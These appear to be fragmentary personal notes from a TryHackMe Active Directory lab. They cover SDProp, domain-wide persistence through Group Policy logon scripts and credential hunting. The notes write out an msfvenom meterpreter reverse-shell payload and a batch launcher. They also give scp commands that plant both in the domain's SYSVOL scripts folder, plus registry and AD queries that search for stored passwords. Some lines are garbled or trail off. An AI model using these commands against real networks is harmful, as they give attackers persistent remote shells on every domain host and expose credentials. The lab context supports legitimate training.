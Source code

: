 
SDProp

Import-Module .\Invoke-ADSDPropagation.ps1 
Invoke-ADSDPropagation



# Persistence through GPOs 

Domain Wide Persistence

The following are some common GPO persistence techniques:

    Restricted Group Membership - This could allow us administrative access to all hosts in the domain
    Logon Script Deployment - This will ensure that we get a shell callback every time a user authenticates to a host in the domain. 


    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe
    runas /netonly /user:Administrator cmd.exe
    create admin.bat 
    copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe

    scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
    scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/


    
    GPO Creation

    The first step uses our Domain Admin account to open the Group Policy Management snap-in:

    In your runas-spawned terminal, type MMC and press enter.
    Click on File->Add/Remove Snap-in...
    Select the Group Policy Management snap-in and click Add
    Click OK



# Credential Access

powershell history
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt


reg query HKLM /f password /t REG_SZ /s
eg query HKCU /f password /t REG_SZ /s

password on REG_SZ

password on description
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description


# Local Windows Credentials 
